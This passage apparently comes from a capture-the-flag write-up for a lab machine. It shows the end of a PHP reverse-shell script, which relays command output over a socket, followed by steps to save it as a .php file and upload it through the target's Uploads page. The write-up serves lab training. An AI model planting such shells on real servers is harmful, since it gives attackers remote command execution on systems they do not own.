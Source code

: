 ```

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Save it as `.php` file.

Upload it in `Uploads` section.

![shell](./Screenshots/oopsieshell2.png)

### gobuster
